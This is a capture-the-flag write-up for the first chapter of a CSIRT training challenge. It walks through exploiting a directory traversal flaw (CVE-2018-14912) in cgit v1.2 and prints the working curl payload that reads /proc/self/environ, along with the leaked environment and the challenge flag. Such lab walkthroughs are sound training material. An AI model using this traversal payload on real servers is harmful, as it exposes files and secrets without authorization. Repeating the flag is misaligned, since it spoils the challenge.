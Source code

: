# Chapter 1: Travel (3 points)

Hi, TCC-CSIRT analyst,

do you know the feeling when, after a demanding shift, you fall into lucid
dreaming and even in your sleep, you encounter tricky problems? Help a
colleague solve tasks in the complex and interconnected world of LORE, where it
is challenging to distinguish reality from fantasy.

* The entry point to LORE is at http://intro.lore.tcc.

See you in the next incident!

## Hints

* Be sure you enter flag for correct chapter.

## Solution

When we navigate to http://intro.lore.tcc/ we can see a carousel with four
sections representing individual chapters, accompanied by short poems
containing subtle hints.

Let's focus on the first one:

```text
1 Travel

In the gentle sway,
Seeking calm within the storm,
A path unfolds clear.

Footsteps brave the tide,
Guided by a steadfast light,
Through trials we stride
```

When we follow a link to the first one, we land on CGIT server `cgit.lore.tcc`.

![CGIT landing page](1-cgit-intro.png)

It seems there's no link further, but the source code contains a commented-out
section.

```html
$ curl http://cgit.lore.tcc/
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>CGIT Source Control System</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            background-color: #f8f9fa;
            margin: 0;
            display: flex;
            justify-content: center;
            align-items: center;
            height: 100vh;
        }
        .container {
            text-align: center;
            background: #ffffff;
            padding: 2em;
            border-radius: 8px;
            box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
        }
        h1 {
            color: #343a40;
        }
        p {
            color: #6c757d;
        }
        a {
            text-decoration: none;
            color: #007bff;
        }
        a:hover {
            text-decoration: underline;
        }
        .button {
            display: inline-block;
            margin-top: 20px;
            padding: 10px 20px;
            border: 1px solid #007bff;
            color: white;
            background-color: #007bff;
            border-radius: 5px;
            text-decoration: none;
        }
        .button:hover {
            background-color: #0056b3;
        }
    </style>
</head>
<body>
    <div class="container">
        <h1>CGIT Source Control System</h1>
        <p>This area is restricted to authorized personnel only.</p>
        <!--
        <p>Manage and browse your source code repositories with CGIT.</p>
        <a href="/cgit.cgi" class="button">Go to Repositories</a>
        -->
    </div>
</body>
</html>
```

When we follow the link to `http://cgit.lore.tcc/cgit.cgi` we can see two git
repositories (`foo` and `sam-operator`) and a footer informing us that the
server runs `cgit v1.2`.

![CGIT repositories](2-cgit-repos.png)

Searching the Internet shows, that this version contains a directory traversal
vulnerability ([CVE-2018-14912]) on `cgit.cgi/<repository>/objects` endpoint.
There is even a readily available [cgit_traversal metasploit module]. However,
we can also use `curl` manually to retrieve various files on the server, e.g.
list the content of `proc/self/environ`, i.e. envirnoment variables of the
current process, where the FLAG can be found.

> _Note: The path depth of 10 can be derived by experimentation or from
> metasploit module, where it is set as default value._

```console
$ curl 'http://cgit.lore.tcc/cgit.cgi/foo/objects/?path=../../../../../../../../../../proc/self/environ' -o -
FLAG=FLAG{FiqE-rPQL-pUV4-daQt}HTTP_HOST=cgit.lore.tccHTTP_X_REQUEST_ID=d09ec752a9408a9923526a1429f86aa3HTTP_X_REAL_IP=10.200.0.40HTTP_X_FORWARDED_FOR=10.200.0.40HTTP_X_FORWARDED_HOST=cgit.lore.tccHTTP_X_FORWARDED_PORT=80HTTP_X_FORWARDED_PROTO=httpHTTP_X_FORWARDED_SCHEME=httpHTTP_X_SCHEME=httpHTTP_USER_AGENT=curl/8.7.1HTTP_ACCEPT=*/*PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binSERVER_SIGNATURE=<address>Apache/2.4.61 (Debian) Server at cgit.lore.tcc Port 80</address>
SERVER_SOFTWARE=Apache/2.4.61 (Debian)SERVER_NAME=cgit.lore.tccSERVER_ADDR=192.168.73.88SERVER_PORT=80REMOTE_ADDR=192.168.73.83DOCUMENT_ROOT=/var/www/htmlREQUEST_SCHEME=httpCONTEXT_PREFIX=CONTEXT_DOCUMENT_ROOT=/var/www/htmlSERVER_ADMIN=[no address given]SCRIPT_FILENAME=/var/www/html/cgit.cgiREMOTE_PORT=48208GATEWAY_INTERFACE=CGI/1.1SERVER_PROTOCOL=HTTP/1.1REQUEST_METHOD=GETQUERY_STRING=path=../../../../../../../../../../proc/self/environREQUEST_URI=/cgit.cgi/foo/objects/?path=../../../../../../../../../../proc/self/environSCRIPT_NAME=/cgit.cgiPATH_INFO=/foo/objects/PATH_TRANSLATED=/var/www/html/foo/objects/
```

We can submit the flag now, however, there are also other interesting things
on this server, that will come handy in [Chapter 3: Bounded] and
[Chapter 4: Uncle].

[CVE-2018-14912]: https://nvd.nist.gov/vuln/detail/CVE-2018-14912
[cgit_traversal metasploit module]: scanner/http/cgit_traversal.rb
[Chapter 3: Bounded]: ../lore-3-bounded
[Chapter 4: Uncle]: ../lore-4-uncle
